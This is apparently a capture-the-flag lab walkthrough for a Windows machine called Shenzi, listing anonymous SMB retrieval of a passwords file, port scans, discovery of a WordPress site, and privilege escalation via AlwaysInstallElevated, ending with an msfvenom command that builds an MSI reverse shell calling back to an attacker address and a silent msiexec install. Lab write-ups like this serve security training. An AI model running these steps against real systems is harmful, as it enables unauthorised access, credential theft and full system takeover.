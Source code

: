 ### autorecon get it, hooray
### smbget
```bash
smbget -R smb://$IP/Shenzi/passwords.txt -U=anonymous%anonymous
smbget -R smb://$IP/Shenzi/readme_en.txt -U=anonymous%anonymous
```

### rust scan
```bash
docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 $IP
```

PORT      STATE SERVICE      REASON
21/tcp    open  ftp          syn-ack
80/tcp    open  http         syn-ack
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
443/tcp   open  https        syn-ack
445/tcp   open  microsoft-ds syn-ack
3306/tcp  open  mysql        syn-ack
5040/tcp  open  unknown      syn-ack
7680/tcp  open  pando-pub    syn-ack
49664/tcp open  unknown      syn-ack
49665/tcp open  unknown      syn-ack
49666/tcp open  unknown      syn-ack
49667/tcp open  unknown      syn-ack
49668/tcp open  unknown      syn-ack
49669/tcp open  unknown      syn-ack

### nmap
```bash
sudo nmap -sC -sV -A -p5040,7680 -v $IP
```

### Enum for wordpress
More than likely, the referenced Wordpress site is being hosted on this machine. Common wordlist attacks against the web server fail to locate the Wordpress directory. However, since the share name is shenzi, let's try that. If we navigate to http://192.168.65.55/shenzi, we are indeed presented with a Wordpress site.

### Checking AlwaysInstallElevated (HTB Academy Miscellaneous Techniques)
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated

Winpeas found it too. So verify it.


C:\Users\shenzi>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\Users\shenzi>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

### Generate payload
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.59 LPORT=5040 -f msi > alvin.msi
```

### MSI package Installation/Executing
```
msiexec /quiet /qn /i C:\Users\shenzi\alvin.msi /norestart
```